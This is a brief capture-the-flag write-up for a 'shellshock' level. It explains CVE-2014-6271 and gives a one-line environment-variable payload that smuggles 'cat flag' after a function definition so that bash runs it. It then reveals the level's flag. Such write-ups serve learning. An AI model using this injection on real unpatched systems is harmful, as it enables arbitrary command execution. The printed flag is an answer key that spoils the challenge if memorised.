 # shellshock Solution

in this level we exploit the bug of shellshock, which runs unintentionally code that is found after func declaration inside env variables.

```
export env_var='() { echo "regular stuff"; }; cat flag'
```

![image](./images/shellshock.png)

**Flag:** ***`only if I knew CVE-2014-6271 ten years ago..!!`***
